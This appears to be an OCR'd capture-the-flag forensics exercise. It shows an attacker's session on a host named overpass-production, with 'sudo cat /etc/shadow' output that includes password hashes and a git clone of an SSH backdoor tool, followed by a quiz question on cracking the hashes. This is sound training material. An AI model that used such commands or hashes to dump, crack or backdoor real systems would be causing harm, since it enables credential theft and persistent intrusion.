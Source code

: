 User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

Using the fasttrack wordlist, how many of the system passwords were crackable?

james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
